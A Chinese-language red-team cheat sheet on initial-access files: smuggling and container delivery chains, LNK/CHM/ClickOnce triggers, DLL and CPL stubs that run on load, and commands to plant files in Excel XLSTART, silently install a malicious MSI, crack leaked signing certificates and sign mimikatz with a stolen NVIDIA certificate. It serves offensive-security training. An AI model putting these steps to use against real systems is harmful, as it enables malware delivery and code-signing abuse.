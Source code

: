 # 初始访问

> 在红队演习的背景下，初始访问文件指的是红队用于最初渗透目标系统或网络的一组文件、脚本、可执行文件或文档。这些文件通常包含恶意负载，或旨在利用特定漏洞在目标环境中建立立足点。

## 摘要

* [复杂链条](#复杂链条)
* [容器](#容器)
* [有效载荷](#payload)
  * [二进制文件](#二进制文件)
  * [代码执行文件](#代码执行文件)
  * [嵌入式文件](#嵌入式文件)
* [代码签名](#代码签名)


## 复杂链条

> 传递(容器(触发器 + 有效载荷 + 诱饵))

* **传递**：意味着传递一个装满文件的包
  * HTML走私、SVG走私、附件
* **容器**：归档所有感染依赖项
  * ISO/IMG、ZIP、WIM
* **触发器**：运行有效载荷的某种方式
  * LNK、CHM、ClickOnce应用程序
* **有效载荷**：恶意软件
  * 二进制文件
  * 代码执行文件
  * 嵌入式文件
* **诱饵**：用于在引爆恶意软件后继续伪装叙述
  * 通常打开PDF文件

示例：

* HTML走私(受密码保护的ZIP + ISO(LNK + IcedID + PNG)) 由[TA551/Storm-0303](https://thedfirreport.com/2023/08/28/html-smuggling-leads-to-domain-wide-ransomware/)使用


## 容器

* **ISO/IMG** - 可以包含隐藏文件，**自动挂载** 提供对包含文件的轻松访问(`powershell –c .\malware.exe`)

* **ZIP** - 可以包含隐藏文件（定位ZIP + 解压缩它 + 更改目录 + 运行恶意软件）

* **WIM** - Windows映像，内置格式用于部署系统功能

  ```ps1
  # 挂载/卸载 .WIM
  PS> Mount-WindowsImage -ImagePath myarchive.wim -Path "C:\output\path\to\extract" -Index 1
  PS> Dismount-WindowsImage -Path "C:\output\path\to\extract" -Discard
  ```

* **7-zip、RAR、GZ** -应在Windows 11上获得原生支持


## 触发器

* **LNK**
* **CHM**
* **ClickOnce**


## 有效载荷

### 二进制文件

这些文件可以在系统上直接执行，无需任何第三方。

* **.exe** 文件，可执行文件可以通过点击运行

* **.dll** 文件，使用 `rundll32 main.dll,DllMain` 执行

  ```c
  #define WIN32_LEAN_AND_MEAN
  #include <windows.h>
  
  extern "C" __declspec(dllexport)
  DWORD WINAPI MessageBoxThread(LPVOID lpParam) {
  MessageBox(NULL, "Hello world!", "Hello World!", NULL);
  return 0;
  }
  
  extern "C" __declspec(dllexport)
  BOOL APIENTRY DllMain(HMODULE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved) {
  switch (ul_reason_for_call) {
      case DLL_PROCESS_ATTACH:
      CreateThread(NULL, NULL, MessageBoxThread, NULL, NULL, NULL);
      break;
      case DLL_THREAD_ATTACH:
      case DLL_THREAD_DETACH:
      case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
  }
  ```

* **.cpl** 文件，与 .dll 文件一样具有 Cplapplet 导出

  ```c
  #include "stdafx.h"
  #include <Windows.h>
  
  extern "C" __declspec(dllexport) LONG Cplapplet(
      HWND hwndCpl,
      UINT msg,
      LPARAM lParam1,
      LPARAM lParam2
  )
  {
      MessageBoxA(NULL, "嘿，我现在是你的控制面板项目了。", "控制面板", 0);
      return 1;
  }
  
  BOOL APIENTRY DllMain( HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
                      )
  {
      switch (ul_reason_for_call)
      {
      case DLL_PROCESS_ATTACH:
      {
          Cplapplet(NULL, NULL, NULL, NULL);
      }
      case DLL_THREAD_ATTACH:
      case DLL_THREAD_DETACH:
      case DLL_PROCESS_DETACH:
          break;
      }
      return TRUE;
  }
  ```


### 代码执行文件

* 带宏的Word文档 (.doc、.docm)

* Excel库 (.xll)

* 启用了宏的Excel加载项文件 (.xlam)

  ```ps1
  xcopy /Q/R/S/Y/H/G/I evil.ini %APPDATA%\Microsoft\Excel\XLSTART
  ```



- 文件类型：
  - WSF文件（.wsf）
  - MSI安装程序（.msi）
    - 示例PowerShell命令：`powershell Unblock-File evil.msi; msiexec /q /i .\evil.msi`
  - MSIX/APPX应用程序包（.msix, .appx）
  - ClickOnce（.application, .vsto, .appref-ms）
  - PowerShell脚本（.ps1）
  - Windows脚本宿主脚本（.wsh, .vbs）
    - 示例PowerShell命令：`cscript.exe payload.vbs`、`wscript payload.vbs`、`wscript /e:VBScript payload.txt`

- 嵌入式文件：
  - 带有嵌入式文件的ICS日历邀请

- 代码签名：
  - 证书可以是**过期**、**被撤销**、**有效**。
  - 许多证书在互联网上泄露并被威胁行为者重新使用。
  - 一些可以在VirusTotal上找到，查询语句：`content:{02 01 03 30}@4 AND NOT tag:peexe`
  - 2022年，LAPSUS$声称对NVIDIA的网络攻击负责，NVIDIA是一家主要的图形卡和AI技术制造商。在这次攻击中，LAPSUS$据称窃取了NVIDIA的专有数据并威胁要泄露它。
  - 证书可以被密码保护。使用[pfx2john.py](https://gist.github.com/tijme/86edd06c636ad06c306111fcec4125ba)工具。
    - 示例PowerShell命令：`john --wordlist=/opt/wordlists/rockyou.txt --format=pfx pfx.hashes`
  - 使用证书对二进制文件进行签名。
    - 示例PowerShell命令：`osslsigncode sign -pkcs12 certs/nvidia-2014.pfx -in mimikatz.exe -out generated/signed-mimikatz.exe -pass nv1d1aRules`
  - 可以用证书签名的文件类型：
    - 可执行文件：.exe, .dll, .ocx, .xll, .wll
    - 脚本：.vbs, .js, .ps1
    - 安装程序：.msi, .msix, .appx, .msixbundle, .appxbundle
    - 驱动程序：.sys
    - CAB文件：.cab
    - ClickOnce：.application, .manifest, .vsto

- 参考资料：
  - [Top 10 Payloads: Highlighting Notable and Trending Techniques - delivr.to](https://blog.delivr.to/delivr-tos-top-10-payloads-highlighting-notable-and-trending-techniques-fb5e9fdd9356)
  - [Executing Code as a Control Panel Item through an Exported Cplapplet Function - @spotheplanet](https://www.ired.team/offensive-security/code-execution/executing-code-in-control-panel-item-through-an-exported-cplapplet-function)
  - [Desperate Infection Chains - Multi-Step Initial Access Strategies by Mariusz Banach - x33fcon Youtube](https://youtu.be/CwNPP_Xfrts)
  - [Desperate Infection Chains - Multi-Step Initial Access Strategies by Mariusz Banach - x33fcon PDF](https://binary-offensive.com/files/x33fcon%20-%20Desperate%20Infection%20Chains.pdf)
  - [Red Macros Factory - https://binary-offensive.com/](https://binary-offensive.com/initial-access-framework)
